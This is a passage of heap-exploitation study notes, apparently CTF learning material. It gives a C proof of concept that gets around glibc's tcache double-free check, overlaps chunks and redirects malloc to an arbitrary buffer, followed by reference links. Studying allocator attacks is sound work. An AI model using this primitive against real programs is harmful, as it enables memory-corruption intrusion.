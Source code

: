 Bypass double free restriction on tcache. (Double Free, Chunk Overlapping)

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

void *ptr[7];
char buf[0x20];

int main() {
    void *p;
    fprintf(stderr, "target => %p\n", buf);
    for (int i = 0; i < 7; i++) { // Fillup Tcache
        ptr[i] = malloc(0x108);
    }
    p = malloc(0x108);
    void *victim = malloc(0x108);
    malloc(0x18); // padding

    for (int i = 0; i < 7; i++) {
        free(ptr[i]);
    }
    free(victim); // Add to unsortedbin
    free(p); // Consolidate with victim

    malloc(0x108); // get a chunk from Tcache & put victim into Tcache
    free(victim); // Double free
    p = malloc(0x128);
    *(uint64_t *)((uint64_t)p + 0x110) = buf; // Overwrite victim's fd = buf
    malloc(0x108);
    p = malloc(0x108);
    fprintf(stderr, "p = malloc(0x108) => %p\n", p);
    exit(0);
}
```

## [House of Corrosion](https://github.com/CptGibbon/House-of-Corrosion)

TODO

# References

https://www.youtube.com/watch?v=dooN6X28daI
https://ctf-wiki.github.io/ctf-wiki/
https://github.com/shellphish/how2heap
https://darkwing.moe/2019/07/18/Pwn%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B023-heap%E4%B8%8Emalloc-1/
